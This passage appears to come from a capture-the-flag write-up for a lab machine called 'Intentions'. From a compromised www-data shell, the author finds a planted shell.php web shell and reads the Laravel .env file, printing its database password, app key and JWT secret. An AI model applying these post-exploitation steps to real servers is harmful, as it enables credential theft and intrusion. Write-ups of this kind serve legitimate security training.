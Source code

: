 ```bash
(remote) www-data@intentions:/var/www/html/intentions/storage/app/public$ ls -la
total 32
drwxr-xr-x 6 www-data www-data 4096 Jul 16 07:15 .
drwxr-xr-x 3 www-data www-data 4096 Feb  2 16:41 ..
-rw-r--r-- 1 www-data www-data   14 Apr 12  2022 .gitignore
drwxr-xr-x 2 root     root     4096 Feb  2 01:09 animals
drwxr-xr-x 2 root     root     4096 Feb  2 01:08 architecture
drwxr-xr-x 2 root     root     4096 Feb  2 01:07 food
drwxr-xr-x 2 root     root     4096 Feb  2 01:07 nature
-rw-r--r-- 1 www-data www-data   95 Jul 16 07:15 shell.php
(remote) www-data@intentions:/var/www/html/intentions/storage/app/public$ cat .gitignore
*
!.gitignore
```

Going up a few directories, identified a git repository situated at `/var/www/html/intentions`, as indicated by the presence of the `.git/` directory.

```bash
(remote) www-data@intentions:/var/www/html/intentions$ ls -la
total 820
drwxr-xr-x  14 root     root       4096 Feb  2 17:55 .
drwxr-xr-x   3 root     root       4096 Feb  2 17:55 ..
-rw-r--r--   1 root     root       1068 Feb  2 17:38 .env
drwxr-xr-x   8 root     root       4096 Feb  3 00:51 .git
...snip...
```

The `.env` file contains several interesting details including the application key, database username and password, and the JWT secret.

```bash
remote) www-data@intentions:/var/www/html/intentions$ cat .env
APP_NAME=Intentions
APP_ENV=production
APP_KEY=base64:YDGHFO792XTVdInb9gGESbGCyRDsAIRCkKoIMwkyHHI=
APP_DEBUG=false
APP_URL=http://intentions.htb
...snip...
...snip...
DB_CONNECTION=mysql
DB_HOST=localhost
DB_PORT=3306
DB_DATABASE=intentions
DB_USERNAME=laravel
DB_PASSWORD=02mDWOgsOga03G385!!3Plcx
...snip...
...snip...
JWT_SECRET=yVH9RCGPMXyzNLoXrEsOl0klZi3MAxMHcMlRAnlobuSO8WNtLHStPiOUUgfmbwPt
```

I couldn't enumerate the repository because of an ownership issue of root directory.

```bash
(remote) www-data@intentions:/var/www/html/intentions$ git log
fatal: detected dubious ownership in repository at '/var/www/html/intentions'
To add an exception for this directory, call:

    git config --global --add safe.directory /var/www/html/intentions
(remote) www-data@intentions:/var/www/html/intentions$ git config --global --add safe.directory /var/www/html/intentions
error: could not lock config file /var/www/.gitconfig: Permission denied)
```
